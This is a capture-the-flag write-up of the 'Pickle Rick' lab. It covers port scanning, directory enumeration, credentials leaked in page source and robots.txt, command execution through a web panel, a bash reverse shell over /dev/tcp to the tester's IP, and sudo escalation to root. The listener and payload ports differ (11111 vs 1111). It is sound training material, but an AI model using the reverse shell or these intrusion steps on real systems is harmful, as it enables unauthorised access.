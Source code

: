** Tristan Gomez **

# Pickle Rick

### Description:
`
This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
`

### Setup

To start the challenge click the `Start Machine` button and wait 1 minute for the target's IP address to appear.
I elected to connect my computer using openvpn instead of the `Attack Box` option. Send the target's IP address a ping to check if its up.

### Step 1: Intel Gathering


Begin with an nmap scan of the target. I elected to use SYN scans

`nmap -sS 10.10.x.x`

We get back two services.

`
PORT    STATE   SERVICE
22/tcp  open    ssh
80/tcp  open    http
`

Looks like there is a website running, lets check it out. When I open `10.10.x.x` in my browser, I am greeted by a picture of Rick and Morty running from some aliens with the text.

```
Help Morty!

Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

Doesn't look like this text has any useful hints. Let's check the page's source next using the browser's dev tools. When I expand the HTML there is a comment with a username. 

`
    Note to self, remember username!

    Username: R1ckRul3s
`

There are no links to other possible pages in the page's source. Im going to check if there is a robots.txt for this site. Sure enough, there is a robots.txt with what could be a password `Wubbalubbadubdub`. There doesn't appear to be anything else useful in this page. <br />

I am going to run `gobuster` to enumerate a *small* file of directory names. We'll see if there are any other pages that are hiding. I ran `gobuster dir -w directoy-list-2.3-small.txt -u 10.10.x.x`. While this is running, open another terminal window and run `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .php -u 10.10.x.x`. <br />

My first scan yields `/assets`. Opening it up in the browser, I can see adirectory of files. There are a few .js, .css, .jpg, and .gif files but no futher info is gained from examining these files. <br />

My `.php` scans have gone much better. I have found a `/login.php` and a `/portal.php`, which redirects back to `/login.php`.

### Step 2: Initial Entry

The `login.php` page has a generic username and password form. Using `R1ckRul3s:Wubbalubbadubdub` I am able to successfully login. We are redirected to `/portal.php` and on this page is a `Command Panel` which has a fillable text area below it. There is a conspicuous green button that says `Execute`. My gut instinct is to type `ls` and click `execute` to see if it is a linux machine. <br />

We get back

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

From here, I opened `/Sup3rS3cretPickl3Ingred.txt` through the browser, which gives the first ingredient. If we try to `cat` the file using this `Command Panel` we get the error message `Command disabled to make it hard for future PICKLEEEE RICCCKKKK.`. At this point, I am going to attempt to run a reverse shell. On my machine I will run `netcat -l -p 11111`. In the `Command Panel` I am going to enter `bash -c 'bash -i >& /dev/tcp/10.2.84.164/1111 0>&1'`. Looking at my netcat window I get 

```
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-108-131:/var/www/html$
```

If we try to run `cat` again on the file containing the first flag, we can seer that this is finally working. Let's check Rick's permissions using `sudo -l`.

```
User www-data may run the following commands on
        ip-10-10-108-131.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL

```

Looks like we can do whatever we want. Let's run `sudo bash` then `whoami` => `root`. Ohohohoho, looks like we have free run of the place. Lets go to `/home` where there is a directory `/rick` stepping into it and listing its contents shows a file `second ingredients`. Using `cat` to see what's inside, we find the second flag. <br />

Finally `cd /root` and `ls`. There is a `3rd.txt` file. Examining its contents gives us the final flag. 
